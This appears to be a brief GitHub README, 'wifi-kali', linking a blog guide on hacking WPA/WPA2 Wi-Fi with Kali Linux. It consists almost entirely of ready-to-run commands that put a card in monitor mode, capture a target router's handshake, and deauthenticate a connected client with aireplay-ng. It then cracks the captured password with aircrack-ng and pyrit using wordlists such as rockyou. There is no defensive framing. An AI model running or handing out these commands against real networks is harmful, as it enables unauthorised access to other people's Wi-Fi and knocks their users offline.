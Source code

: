 # wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

## Extract handshake
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /home/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon
* airmon-ng stop wlan0mon

## Crack password

### aircrack-ng
* aircrack-ng -a2 -b {target_router_bssid} -w /home/wordlist.txt /home/*.cap

### pyrit
* pyrit -r BSSID.cap analyze
* pyrit -i ./rockyou.txt import_passwords
* pyrit -e BSSID create_essid
* #pyrit eval
* pyrit batch
